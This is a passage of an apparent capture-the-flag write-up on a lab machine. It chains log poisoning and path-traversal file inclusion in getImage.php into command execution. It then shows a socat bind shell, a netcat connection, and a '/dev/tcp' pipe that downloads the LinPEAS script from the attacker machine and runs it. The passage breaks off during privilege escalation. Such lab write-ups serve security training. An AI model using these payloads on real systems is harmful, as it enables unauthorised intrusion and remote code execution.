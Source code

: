 The WebAdmin login successfully escaped the injected PHP code, but it didn't look like the HTTP Basic Auth method did as well.

The next thing I tried was adding the parameter ```cmd``` with the value ```id```.

The final payload URL was ```http://192.168.159.184/cgi-data/getImage.php?file=../../../../../../../../usr/local/lsws/logs/error.log&cmd=id```

After executing this, I found my golden ticket.

```
2022-10-24 17:29:06.227908 [INFO] [192.168.159.128:55350#Example] User 'uid=33(www-data) gid=33(www-data) groups=33(www-data)
' failed to authenticate.
```

The next commands I tried were a series of ```which```'s to see what connection-establishing tools I had. From this, I discovered ```socat``` installed on the machine.

```
2022-10-24 17:29:06.227908 [INFO] [192.168.159.128:55350#Example] User '/usr/bin/socat
' failed to authenticate.
```

Knowing this, I created a Socat bind shell payload as the following command: ```socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash```

The final payload URL was ```http://192.168.159.184/cgi-data/getImage.php?file=../../../../../../../../usr/local/lsws/logs/error.log&cmd=socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash```

After executing this, the page hung. This indicated to me that the bind shell worked, so I started Netcat and successfully established a connection.

```
$ sudo nc 192.168.159.184 4443                                                                                                                                                                         
[sudo] password for meowmycks: 
whoami
www-data
```

## Step 5 - Privilege Escalation

After upgrading to a TTY interactive shell, I set myself up to be able to run the LinPEAS script on the machine to perform privesc enumeration.

I started a Netcat listener on my attacker machine with the command ```sudo nc -q 5 -lvnp 80 < linpeas.sh```.

```
$ sudo nc -q 5 -lvnp 80 < linpeas.sh
listening on [any] 80 ...
```

Then I started a standard TCP connection on the target machine to download the LinPEAS script and immediately run it using ```sh``` once connected.

```
www-data@durian:/var/www/html/cgi-data$ cd /tmp
www-data@durian:/tmp$ cat < /dev/tcp/192.168.159.128/80 | sh
```
